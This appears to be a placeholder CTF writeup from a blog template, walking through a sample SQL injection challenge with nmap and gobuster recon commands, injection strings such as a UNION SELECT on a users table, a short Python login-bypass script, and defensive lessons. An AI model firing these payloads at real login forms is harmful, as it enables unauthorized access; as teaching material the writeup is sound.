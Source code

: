 ```yaml
---
title: "Sample CTF Challenge - Web Exploitation"
description: "A walkthrough of a sample web exploitation challenge demonstrating common techniques"
date: 2024-01-15
tags: ["web", "exploitation", "sql-injection"]
categories: ["Web Exploitation"]
author: "Hexora"
toc: true
---
```


## Challenge Overview

This is a sample CTF writeup to demonstrate how your blog will look. The challenge involves exploiting a web application vulnerable to SQL injection.

## Initial Reconnaissance

First, let's examine the target application:

```bash
# Port scanning
nmap -sV -sC target.com

# Directory enumeration
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt
```

## Vulnerability Analysis

The application appears to have a login form that's vulnerable to SQL injection:

```sql
' OR 1=1 --
' UNION SELECT username,password FROM users --
```

## Exploitation

Here's the Python script I used to exploit the vulnerability:

```python
import requests

def exploit_sql_injection(url):
    payload = "' OR 1=1 --"
    data = {"username": payload, "password": "anything"}
    
    response = requests.post(url + "/login", data=data)
    
    if "Welcome" in response.text:
        print("[+] SQL injection successful!")
        return True
    return False

# Test the exploit
exploit_sql_injection("http://target.com")
```

## Flag Capture

After successful exploitation, the flag was revealed:

```
flag{5ql_1nj3ct10n_15_fun}
```

## Lessons Learned

1. **Always validate user input** - The application failed to sanitize SQL queries
2. **Use parameterized queries** - This prevents SQL injection attacks
3. **Implement proper authentication** - Don't rely on client-side validation

## Tools Used

- Nmap for port scanning
- Gobuster for directory enumeration
- Python requests library for exploitation
- Burp Suite for request manipulation

---

*This is a sample writeup to demonstrate the blog structure. Replace with your actual CTF solutions!*
